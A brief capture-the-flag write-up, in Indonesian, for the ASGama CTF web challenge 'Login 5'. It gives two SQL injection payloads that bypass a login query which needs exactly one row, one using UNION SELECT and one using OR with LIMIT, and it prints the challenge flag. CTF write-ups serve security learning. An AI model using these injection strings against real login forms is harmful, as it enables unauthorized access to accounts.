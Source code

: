 # __ASGama CTF__ 
## _Login 5_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Web | 75 | l0l

**Description:** 

> http://ctf.asgama.web.id:40111/
>
> [source](./login5.php)

### Login 5
Mirip seperti [login4](../Login4/README.md), hanya saja kali ini jumlah row harus sama dengan 1. Dapat kita akali dengan perintah union atau limit.

### Payload
```
' and 0 union select 1,2,3 -- -
```

```
' or 1 limit 1 -- -
```

### Result
```
GamaCTF{EsKiEl_InJekS10n_W1th_Un10N}
```

### Flag
GamaCTF{EsKiEl_InJekS10n_W1th_Un10N}